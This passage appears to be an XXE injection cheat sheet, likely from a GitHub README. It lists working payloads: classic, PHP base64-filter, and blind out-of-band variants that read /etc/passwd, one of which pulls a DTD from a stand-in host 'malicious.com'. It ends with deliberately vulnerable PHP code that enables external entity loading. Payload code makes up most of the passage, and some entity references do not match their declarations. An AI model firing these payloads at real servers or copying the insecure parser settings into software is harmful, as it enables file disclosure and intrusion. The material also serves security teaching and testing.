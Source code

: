 
>**Note:** We may also use the `PUBLIC` keyword instead of `SYSTEM` for loading external resources, which is used with publicly declared entities and standards, such as a language code (`lang="en"`).


#### Classic XML External Entity

```
# Classic XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

#### Base-encoded XML External Entity

This trick only works with PHP web applications: 

```
# Base encoded XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>

```

#### Blind XML External Entity - Out of Band 


```
# Blind XXE 1
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```

```
# Blind XXE 2
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://malicious.com/exploit"> %xxe; ]>

	# http://malicious.com/exploit will contain another entity such as 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```


### But why external entities are accepted

This is a snipped of a PHP code that accept extenal DTDs

```php
<?php

libxml_disable_entity_loader (false);
// libxml_disable_entity_loader (true);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$name = $info->name;
$password = $info->password;

echo "Sorrym this $name is not available";
?>
```
